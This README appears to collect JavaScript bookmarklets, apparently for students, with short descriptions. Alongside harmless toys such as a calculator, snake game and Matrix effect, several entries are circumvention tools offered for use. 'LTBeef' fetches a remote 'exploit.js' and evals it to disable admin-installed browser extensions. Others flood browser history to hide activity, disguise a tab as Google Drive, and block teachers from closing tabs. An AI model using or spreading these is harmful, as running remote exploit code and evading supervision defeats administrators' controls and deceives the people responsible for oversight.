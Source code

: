 # Bookmarklet Collection
### I do not condone any illegal/immoral use of these bookmarklets, these are listed strictly for educational purposes!

> ## Edit+
#### Edit+ is a toggleable way to edit any text on the page that the bookmarklet is used on, this is client side and does not cause damage to the site, will reset or reload.
`javascript:if(document.body.contentEditable != 'true')void(document.body.contentEditable = 'true');else void(document.body.contentEditable = 'false');`


> ## Calculator
#### Calculator is a popup box that can solve any simple math equation on any page you choose!
`javascript:eval('function calc(){_o=prompt(_t,_z);if(_o!=\'\'&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())_z=eval(_o);}');_t='JAVASCRIPTER.NET Calculator - Input the expression to be calculated:';_z='';calc();while(_o!=''&&_o!=null&&_o.toUpperCase()==_o.toLowerCase())calc()`


> ## History Flooder
#### Have something to hide? Use this bookmarklet to spam your history with your input of websites!
`javascript:var num=prompt("History flood amount: "); done = false; x = window.location.href; for (var i=1; i<=num; i++) {history.pushState(0, 0, i==num?x:i.toString()); if(i==num){done=true}}if(done===true){alert("History flood successful! "+window.location.href+" now appears in your history "+num+(num==1?" time.":" times."))}`


> ## X-Ray Googles
#### This lets you edit the raw HTMl of a page (Client-Sided)
`javascript:(function () {var script=document.createElement('script');script.src='https://x-ray-goggles.mouse.org/webxray.js';script.className='webxray';script.setAttribute('data-lang','en-US');script.setAttribute('data-baseuri','https://x-ray-goggles.mouse.org');document.body.appendChild(script);}())`


> ## Portable Minecraft
#### Play a mock minecraft on any webpage! Recovered by luphoria.
`javascript:(function(){window.mcbmRootURI='https://luphoria.com/MCanywhere/';window.mcbmScriptURI='mcbm.min.js';window.mcbmLang='eng';var s,ss=window.mcbmRootURI+'js/mcbm-load.min.js';s=document.createElement('script');s.src=ss;document.body.appendChild(s);})();`


> ## Portable Snake Game
#### Game window appears on your page that you can play snake on.

`javascript:Q=32;m=b=Q*Q;a=[P=l=u=d=p=S=w=0];u=8;f=(h=j=t=(b+Q)/2)-1;(B=(D=document).body).appendChild(x=D.createElement("p"));(X=x.style).position="fixed";X.left=X.top=0;X.background="#FFF%22;x.innerHTML=%22%3Cp%3E%3C/p%3E%3Ccanvas%3E%22;v=(s=x.childNodes)[0];(s=s[1]).width=s.height=5*Q;c=s.getContext(%222d%22);%20onkeydown=onblur=F=function(e,g){g?a[f]?(w+=m,f=Math.random(l+=8)*(R=Q-2)*R|(u=0),F(f+=Q+1+2*(f/R|0),g)):F(f):0%3Ee?(l?--l:(y=t,t=a[t]-2,F(y)),S+=(w*=0.8)/4,m=999/(u++%20+10),a[h+=[-1,-Q,1,Q][d=p]]?B.removeChild(x,alert(%22Game%20Over!\nThe%20game%20window%20will%20now%20be%20closed.\n\nMade%20by%203kh0%22)):(F(h),F(e,j=h),v.innerHTML=P?(setTimeout(F,50,e,0),S|0):%22Press%20P%20to%20play!%20Made%20by%203kh0%22)):-e?(y=(a[e]=e%3CQ|e%3E=Q*Q-Q|!(e%Q)|e%Q==Q-1|2*(e==h))+(e==f),e==h&&(a[j]=2+h),c.fillStyle=%22hsl(%22+99*!a[e]+%22,%22+2*m+%22%,%22+50*y+%22%)%22,c.fillRect(e%Q*5,5*(e/Q|0),5,5)):isNaN(y=e.keyCode-37)|43==y?(P=y&&!P)&&F(-1):%20p=!P|y&-4|!(y^2^d)?p:y;return!1};for(;--b;F(b));void%20F(-1);`

> ## Enter The Matrix
#### Do you choose the red or the blue pill?

`javascript:(function(){var%20wn=window,w,h,o={},m,dc,b,c='ABCDEFGHIJKLM1234567890nopqrstuvwxyz',y=setInterval,z=clearInterval,t=1;function%20x(){dc=document;b=dc.body;b.innerHTML='';bs=b.style;w=wn.innerWidth;h=wn.innerHeight;bs.backgroundColor='black';bs.overflow='hidden';m=y(n,25);dc.addEventListener('keydown',function(e){if(e.keyCode==83){if(t)z(m);else%20m=y(n,25);t=!t}},0)}function%20g(i){return%20dc.getElementById(i)}function%20r(d,m){return%20Math.floor(Math.random()*d)+m}function%20a(i){var%20d=g(i),ds=d.style,t=parseInt(ds.top),k=o[i];if(t<h){ds.top=(t+10)+'px'}else{z(k);b.removeChild(d);delete%20k}}function%20n(){var%20d=dc.createElement('div'),dt=new%20Date(),i='m_'+dt.getTime(),ds=d.style,v=ds.visibility,j=0,u=[],l=r(21,4),q=c.length,p;d.id=i;ds.width='5px';ds.opacity=r(.3,.7);ds.fontSize=r(8,8)+'px';ds.lineHeight='8px';ds.color='green';ds.position='absolute';ds.left=r(w,0)+'px';v='hidden';while(j<l){p=r(q,0);u[j]=c.substring(p,p+1);j++}d.innerHTML=u.join("\n");b.appendChild(d);ds.top=-d.offsetHeight+'px';v='visible';o[i]=y(function(){a(i)},r(20,40))}x();})()`


> ## LTBeef
#### Force disable admin installed extensions (go to chrome webstore)

`javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});`

> ## Google Drive Tab Disguise
#### Changes icon and title of tab to Google Drives

`javascript:function gcloak() { var link = document.querySelector("link[rel*='icon']") || document.createElement('link');link.type = 'image/x-icon';link.rel = 'shortcut icon';link.href = 'https://ssl.gstatic.com/docs/doclist/images/infinite_arrow_favicon_5.ico';document.title = 'My Drive - Google Drive';console.log(document.title);document.getElementsByTagName('head')[0].appendChild(link) };gcloak();setInterval(gcloak, 1000);`

> ## Secure Page
#### This bookmarklet makes your tab need extra confirmation to close (teachers cant force close)

`javascript:window.onbeforeunload = function() { return "Do you want to close"; }; alert("Tab Secured");`

> ## Show Password
#### Makes "********" Passwords show after clicking bookmarklet

`javascript:(function(){ var IN,F;IN=document.getElementsByTagName('input'); for(var i=0;i<IN.length;i++){F=IN[i]; if(F.type.toLowerCase()=='password'){ try{F.type='text'}catch(r){ var n,Fa;n=document.createElement('input'); Fa=F.attributes;for(var ii=0;ii<Fa.length;ii++){ var k,knn,knv;k=Fa[ii];knn=k.nodeName;knv=k.nodeValue; if(knn.toLowerCase()!='type'){ if(knn!='height'&&knn!='width'&!!knv)n[knn]=knv}}; F.parentNode.replaceChild(n,F)}}}})()`

> ## Blooket Multitool
#### This is a semi-functional blooket multitool

`Way too big to put here but its at (https://zeltux.dev/blooket.js)`
